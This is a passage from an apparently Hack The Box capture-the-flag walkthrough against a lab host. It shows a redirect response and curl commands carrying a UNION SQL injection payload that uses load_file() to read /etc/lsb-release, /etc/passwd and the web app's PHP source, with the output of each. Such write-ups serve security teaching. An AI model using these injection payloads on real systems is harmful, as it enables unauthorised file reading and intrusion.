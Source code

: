     Nmap done: 1 IP address (1 host up) scanned in 0.38 seconds
    

Also interesting, that POST request to `challenge.php` returned a 302 redirect
to `firewall.php`:

    
    
    HTTP/1.1 302 Found
    Server: nginx/1.18.0 (Ubuntu)
    Date: Fri, 19 Nov 2021 21:14:18 GMT
    Content-Type: text/html; charset=UTF-8
    Connection: close
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate
    Pragma: no-cache
    Location: /firewall.php
    Content-Length: 0
    

It’s `firewall.php` that reports back that I have this access.

#### Read Files

SQL is configured with permissions to read files as well:

    
    
    oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select load_file('/etc/lsb-release');-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
    DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=20.04
    DISTRIB_CODENAME=focal
    DISTRIB_DESCRIPTION="Ubuntu 20.04.3 LTS"
    

`/etc/passwd` gives a list of users on the host:

    
    
    oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select load_file('/etc/passwd');-- 
    -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
    root:x:0:0:root:/root:/bin/bash
    ...[snip]...
    htb:x:1000:1000:htb:/home/htb:/bin/bash
    ...[snip]...
    uhc:x:1001:1001:,,,:/home/uhc:/bin/bash
    

I can also read the page source:

    
    
    oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select load_file('/var/www/html/ind
    ex.php');-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
    <?php                                                              
      require('config.php');        
      if ( $_SERVER['REQUEST_METHOD'] == 'POST' ) {
    ...[snip]...
    